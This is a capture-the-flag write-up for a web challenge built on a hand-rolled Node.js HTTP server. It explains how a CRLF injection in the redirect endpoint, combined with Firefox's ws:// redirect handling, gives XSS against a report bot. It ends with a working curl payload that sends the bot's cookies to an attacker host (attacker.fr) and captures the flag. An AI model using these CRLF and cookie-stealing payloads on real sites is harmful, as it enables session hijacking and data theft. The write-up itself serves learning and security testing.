





# Day 08 - Custom HTTP Server

- Category: Web
- Difficulty: Hard
- Format: Whitebox

## Description

Since it caught a ton of vulnerabilities in its previous applications, Santa Claus no longer trusts any library.

He's fed up with seeing CVEs arrive and make his application vulnerable when it's not his fault... He decided to take the initiative and stop using any libraries. He recoded a new web JS framework from scratch.

He's even giving you the source code for his brand-new framework, and in any case he's counting on the community to point out any bugs!

After all, what could go wrong?

## Writeup

**TLDR: NodeJS, Custom HTTP implementation, Open Redirect, CRLF, XSS Firefox with ws://**



As the description said, the developer was fed up with all the frameworks he was using being vulnerable, so he decided to recode all the functions for his application.

The following files are given :

```bash
$ tree
.
├── Dockerfile
├── README.md
├── app
│   ├── app.js
│   ├── lib
│   │   ├── constants.js
│   │   ├── http.js
│   │   ├── reporter.js
│   │   ├── response.js
│   │   ├── router.js
│   │   ├── sanitizer.js
│   │   └── server.js
│   ├── package-lock.json
│   ├── package.json
│   └── templates
│       ├── 400.html
│       ├── 403.html
│       ├── 404.html
│       └── index.html
└── docker-compose.yml

3 directories, 17 files
```

The ``lib/constants` file implements HTTP protocol features such as response headers, status codes and content types.

```javascript
exports.HttpHeaders = {
    LOCATION: 'Location',
    CONTENT_TYPE: 'Content-Type',
    CONTENT_LENGTH: 'Content-Length'
};

exports.HttpStatus = {
    OK: 200,
    MOVED_PERMANENTLY: 301,
    FOUND: 302,
    BAD_REQUEST: 400,
    NOT_FOUND: 404,
    FORBIDDEN: 403,
};

exports.MimeTypes = {
    HTML: 'text/html',
    JSON: 'application/json',
    XML: 'application/xml',
    PLAIN: 'text/plain',
};
```

This is a minimalist approach that meets primary needs.

A closer look at the `app.js` file reveals the application's entry point and the way endpoints are managed.

Very simply, if a user accesses the application root, the templates/index.html file is returned using the res.html function.

```javascript
router.get('/', async (req, res) => {
  try {
    const content = await fs.readFile(path.join(__dirname, 'templates', 'index.html'), 'utf8');
    res.html(content);
  } catch (err) {
    res.notFound();
  }
});
```

The res.html() function is the following in lib/response.js :

```javascript
html(content) {
    this.res.writeHead(HttpStatus.OK, {
        [HttpHeaders.CONTENT_TYPE]: MimeTypes.HTML,
        [HttpHeaders.CONTENT_LENGTH]: Buffer.byteLength(content)
    });
    this.res.end(content);
}
```

Unsurprisingly, the application responds with code 200, then the desired content-type (in this case text/html), the content-length, which is the size of the content to be returned, and finally the text to be displayed.

The developer has also taken care to re-implement basic displays such as support for plaintext, JSON and XML.

```javascript
router.get('/api/xml', (req, res) => {
  res.xml({
    response: {
      message: 'This is an XML response',
      timestamp: new Date().toISOString(),
      items: [
        { id: 1, name: 'Item 1' },
        { id: 2, name: 'Item 2' }
      ]
    }
  });
});

router.get('/api/json', (req, res) => {
  res.json({
    message: 'This is a JSON response',
    timestamp: new Date().toISOString()
  });
});
```

The application also implement a Sanitizer class to secure user inputs for XSS and SQL injections :

```javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});

router.get('/api/sql', async (req, res) => {
  try {
      const { id } = req.query;
      const query = "SELECT * FROM users WHERE id=" + Sanitizer.sql(id, 'int') + "";
      // Do your SQL query ...
      res.print(query);
  } catch (err) {
      res.badRequest();
  }
});
```

The code of Sanitizer is the following :

```javascript
const htmlEntities = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;'
  };
  
class Sanitizer {
    static escapeHtml(str) {
        if (typeof str !== 'string') {
            return '';
        }
        return str.replace(/[&<>"']/g, char => htmlEntities[char]);
    }
  
    static xss(input) {
      return this.escapeHtml(input);
    }
  
    static sql(input, type) {
        if (type === "int") {
            return parseInt(input)
        } else if (type === "string"){
            //todo
        }
    }
}
```

Looking to XSS sanitizer, the code seems sufficiently robust, as replacing characters with their HTML entities will prevent the execution of potential HTML tags.

For SQL Injection, here the code serves only as an example, so there's no need to spend too much time on it since we can see that no database is linked behind it.

So ... no XSS, no SQL injection + the code is very minimalist, what are we going to find?

Looking at the code, we notice the presence of a /api/redirect endpoint that takes a URL as parameter.



The backend redirect the user to the URL provided, it's a classic open redirect ... not crazy.

Here is the source code of redirect function

```javascript
redirect(location, isPermanent = false) {
    const statusCode = isPermanent ? HttpStatus.MOVED_PERMANENTLY : HttpStatus.FOUND;
    const socket = this.res.socket;
    const head = `HTTP/1.1 ${statusCode} Found\r\nLocation: ${location}\r\nConnection: close\r\n\r\n`;
    socket.write(head);
    socket.end();
    this.res.finished = true;
}
```

The code reimplements the HTTP response to be sent back to the browser in raw form, using `\r\n` as the end of the string to pass to the next header.

What would happen if we injected our own line feeds there?

To do this, we'll URL encode the characters with `%0D%0A` like this:

```bash
» curl 'http://dyn-01.xmas.root-me.org:37781/api/redirect?url=https://evil.com/%0D%0AFoo:Bar' -i
```



Ok, we've managed to add a new line to add a header to the response made by the server...

The first idea is to add 2 lines to be able to control the content returned by the server, and thus respond with the HTML code we want and obtain an XSS :

```bash
» curl 'http://dyn-01.xmas.root-me.org:37781/api/redirect?url=https://evil.com/%0D%0A%0D%0A<script>alert()</script>' -i
```



There you go, perfect, isn't it?

However, when you put the URL in the browser, nothing happens, and why?

This is because the API returns a **302 code**, so the response body is **not loaded** and is completely ignored by the browser.

This doesn't suit us because we can't run our XSS. We'd like to be able to load the DOM of the page before the redirection is made.

A Google search reveals this article, which explains that on Firefox, the ws:// wrapper first loads the page's DOM, then performs the redirection.

- [https://www.gremwell.com/firefox-xss-302](https://www.gremwell.com/firefox-xss-302)

So if the DOM is loaded before redirection, as we control it we can get the XSS!

It's a good thing, because when we read the Reporter class, we see that the bot use Firefox to browse the links provided by the user.

```javascript
const { firefox } = require('playwright');

class Reporter {
    static async generateReport(url) {
        let browser;
        try {
            browser = await firefox.launch({
            headless: true,
            args: ['--no-sandbox', '--disable-setuid-sandbox'],
        });

        const page = await browser.newPage();

        const cookie = {
            name: 'FLAG',
            value: 'RM{REDACTED}',
            domain: '127.0.0.1',
            path: '/',
            httpOnly: false,
            secure: false,
        };
        // ...
        }
    }
}
```

We can compare the behaviour between Chrome & Firefox with the following URL :

- [http://dyn-01.xmas.root-me.org:37781/api/redirect?url=ws://evil.com/?%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E](http://dyn-01.xmas.root-me.org:37781/api/redirect?url=ws://evil.com/?%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E)

- Chrome


- Firefox



Perfect! Let's adapt the payload to leak the flag from cookies :

```bash
» curl "http://dyn-01.xmas.root-me.org:37781/api/report?url=http://127.0.0.1:3000/api/redirect?url=ws://evil.com/?%250D%250A%250D%250A<script>location='//attacker.fr/?c='.concat(document.cookie)</script>" -i 
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 66
Date: Tue, 10 Dec 2024 22:12:53 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"message":"Thanks for your report, I'm checking!"
```

And we receive the flag!

```bash
GET /?c=FLAG=RM{Damnn_Chrome_And_Firefox_4re_S0_different} HTTP/1.1
``` 